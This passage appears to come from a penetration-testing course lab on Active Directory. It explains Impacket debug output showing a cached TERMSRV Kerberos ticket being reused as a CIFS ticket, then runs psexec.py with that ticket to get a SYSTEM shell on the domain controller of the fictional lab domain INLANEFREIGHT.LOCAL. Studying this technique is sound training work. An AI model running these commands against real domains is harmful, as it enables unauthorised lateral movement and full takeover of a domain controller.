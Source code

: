 Reading this output, we can see that multiple times, `Impacket` is looking for a ticket for a specific SPN, but it can't find it.
```shell-session
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
```

So it keeps looking for other tickets compatible with the target's service account.
```shell-session
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
```

Once it finds one, it updates the SPN to the one it's looking for, which here is `CIFS/DC01@INLANEFREIGHT.LOCAL`.
```shell-session
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
```

`psexec.py` repeats this operation to get an interactive shell:
```shell-session
slomkm@htb[/htb]$ psexec.py -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01 -debug
<SNIP>
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami